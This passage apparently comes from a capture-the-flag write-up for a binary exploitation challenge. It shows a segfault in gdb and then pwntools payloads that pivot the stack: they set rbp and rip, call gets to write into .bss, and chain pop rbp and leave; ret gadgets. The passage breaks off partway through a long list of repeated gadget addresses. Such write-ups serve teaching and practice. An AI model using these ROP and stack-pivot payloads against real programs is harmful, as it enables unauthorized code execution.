 ```Program received signal SIGSEGV, Segmentation fault.
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
```
We can see `rip` is `0x0` and `rbp` is `0x0`. So we can use `stack pivot` technique to solve this challenge.<br>

## 0x02 - Exploit
Now we have basic idea of how to solve this challenge. Let's start abusing this challenge.
```python
payload = flat({
    0x20:0x404038 + 0x20,  #Setting this as RBP
    0x28:0x0000000000401205,  # RIP --> gets of main
})
```
This is our first payload. We are setting `rbp` to `0x404038 + 0x20` and `rip` to `0x0000000000401205` which is `gets` address in main function. After this we can use `gets` to read our next payload.<br>
What it does?<br>
It simply calls `gets(0x404038)` to take our input <br>
Why calling `gets`? <br>
To overcome the issue we are facing with `leave; ret` instruction. We can use `gets` to write some valid address at `rbp` so that when `leave; ret` is executed, it will not cause segmentation fault.<br>
```python
payload = flat({
    0: [
        pop_rbp,  # pop rbp
        0x0000000000404150,  # points to main address in .bss
        leave_ret   # leave ; ret
    ],
    0x20: elf.sym.print + 0x20,  # RBP --> @puts+0x20
    0x28: [
        0x401227, # increasing the stack space
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
        0x401227,
```